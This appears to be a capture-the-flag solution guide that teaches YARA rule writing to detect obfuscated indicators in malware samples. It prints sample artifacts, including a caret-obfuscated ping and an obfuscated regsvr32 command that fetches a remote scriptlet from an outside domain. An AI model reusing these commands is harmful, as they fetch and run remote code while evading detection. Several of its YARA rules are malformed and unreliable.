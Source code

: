 # Stratification Performation Solution

## Introduction

This guide is designed to serve as a guide to solve this challenge using YARA. In this challenge, players will need to write simple YARA rules to scan three different directories that are present in the provided files. This is to emulate artifacts obtained from a malware investigation. In the provided files there are three folders, [IP](../challenge/IP/), [DNS](../challenge/DNS/) and [CODE](../challenge/CODE/). A YARA rule will need to be created for each of these folders to obtain a file name from each based on the following IOC table. 

 
  | Folder       | IOC                                                        |
  |--------------|------------------------------------------------------------|
  | /IP          | 164.240.138.239                                            |
  | /DNS         | hvOiwETMXmzgAfcGrqlHUCQIyVDBbpoJZdKYPensxruNtaLSjFkW.com   |
  | /CODE        | rCvAfWxe.exe                                               |

Table: Indicators of Compromise

Players will need to observe files created in each directory and determine what obfuscation techniques have been put in place by the attacker to evade automated malware detection engines. Based on observations, players need to craft their rules accordingly, then run the rule file using `yara64.exe` contained in `C:\tools\yara\`. 

Syntax for running rules is: `yara64.exe [RULE NAME] [TARGET DIR]`

## IP address

1. Open a sample file from the /IP directory and notice the following

    ```
    ~  ? � � � � y ? Z � ?  � � Q ` � ? � � � @ ? � ] p / � o � �  ~  ?  � � � l 7
    cmd.exe ping -t 2^^54.106^^.246^^.18^^5 ~  ? � � � � y ? Z � ?  � � Q ` � ? � � � @ ? � ] p / � o � �  ~  ?  � � � l 7**
    ```

2. In the sample there are ^ characters used in this obfuscation technique along with varying buffers on either side of the executable code.

3. Open a second sample

    ```
    9 R   Q E u � � K M � b q 
    } < ? K  � � y � � � ? � � 4 ~  ? � ? � � 5 � m a � < ? c 3 � 2  V U � � � � V ? � ? � ? + ? ? w ? �  
    ( ; � �  � ? O ? � � � � C  �  � o  > � � W & � H Y
    cmd.exe ping -t 82.1^^57.187.19^^5 9 R   Q E u � � K M � b q 
    } < ? K  � � y � � � ? � � 4 ~  ? � ? � � 5 � m a � < ? c 3 � 2  V U � � � � V ? � ? � ? + ? ? w ? �  
    ( ; � �  � ? O ? � � � � C  �  � o  > � � W & � H Y **
    ```

 4. In the second sample we notice that there are buffers of different lengths than the first. We also notice that the carats appear again, this time they correlate with the number 5. Based on this same and the previous one, we can see that the number 5 is preceded by ^^ and the number 6 may be followed by ^^.

 5. Repeat this process two more times until you find that 3=3^^, 6=6^^ and 5=^^5 

 6. Write the following YARA rule and save it as a .yar file

    ```
    rule {
        strings:
        
        $ip= "16^^4.240.13^^8.23^^9"

        condition:

        $ip
    }
    ```

7. Save the rule as a .yar and run the YARA rule from a command line: `yara64.exe iprule.yar D:\var1\IP\`

8. The filename for will appear when the correct rule has been run

## DNS
Next, the player will need to assess DNS for the second part of the challenge and find an obfuscated DNS entry within the /DNS folder. 

1.  This part of the challenge leverages obfuscation by character substitution by substituting the "r" character with the %ALLUSERPROFILE% environment variable. Open another sample from the /DNS folder
    
    ```
    ® Ð ´ g ò H c v & ? ¬ Ì ç Ý d 
    @echo off %ALLUSERSPROFILE:~4,1%egsv%ALLUSERSPROFILE:~4,1%32.exe /s /n /i:http://hvOiwETMXmzgAfcG%ALLUSERSPROFILE:~4,1%qlHUCQIyVDBbpoJZdKYPensx%ALLUSERSPROFILE:~4,1%uNtaLSjFkW.com3  ® Ð ´ g ò H c v & ? ¬ Ì ç Ý d  
    ```

2. In these samples you'll find that the %ALLUSERPROFILE:~4,1% variable is used for the "r" character as evident by the call in the batch file for "regsvr32.exe". Similarly to the previous version, a couple of    samples may need to be analyzed to recognize this pattern. The end result will be a yara rule similar to the following
    
    ```
    rule {
            strings:
        
            $dns = "hvOiwETMXmzgAfcG%ALLUSERSPROFILE:~4,1%qlHUCQIyVDBbpoJZdKYPensx%ALLUSERSPROFILE:~4,1%uNtaLSjFkW.com"

            condition:

            $dns
    }
    ```

3. Save the rule as a .yar and run the YARA rule: `yara64.exe dnsrule.yar D:\var1\DNS\`

4. The filename for will appear when the correct rule has been run

## CODE

1. The final part of the challenge inovlves analyzing samples in the /CODE directory and finding an executable file reference that uses both techniques. In this case "e" will be subtituted with %comspec:~-1% and there are double quotes preceding the characters "r" and "f". This may require contestants review several files to discover the pattern. 

2. This final rule will look like the following: 

    ```
    rule {
            strings:
        
            $code = "r"\"\CvAf"\"\Wx%comspec:~-1%.%comspec:~-1%x%comspec:~-1%"

            condition:

            $code
    }
    ```

3. Save the rule as a .yar and run the YARA rule: `yara64.exe coderule.yar D:\var1\CODE\`

4. The filename for will appear when the correct rule has been run
